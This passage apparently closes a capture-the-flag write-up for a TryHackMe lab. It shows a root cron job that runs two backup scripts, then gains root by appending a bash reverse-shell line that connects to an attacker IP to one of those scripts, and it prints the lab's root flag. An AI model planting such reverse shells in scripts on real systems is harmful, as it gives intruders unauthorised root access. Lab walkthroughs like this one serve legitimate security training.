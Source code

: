 Looking at `/opt/admin_stuff/script.sh`

```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```



Then `/usr/local/sbin/dev_backup.sh`

```
#!/bin/bash
cp -r /var/www/dev.team.thm/* /var/backups/www/dev/
```



And `/usr/local/bin/main_backup.sh` 

```
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

So we have multiple choices here.

We can add a php reverse shell in `/var/www/dev.team.thm` or `/var/www/team.thm` and call by accessing the webpage

OR

simply modify `/usr/local/bin/main_backup.sh` to add our revshell



Let's just add our shell in the script and let the cron job run

```
bash -i >& /dev/tcp/10.2.13.34/8888 0>&1
```

Andd we got a `root` shell



`/root/root.txt` :

```
THM{fhqbznavfonq}
```



## End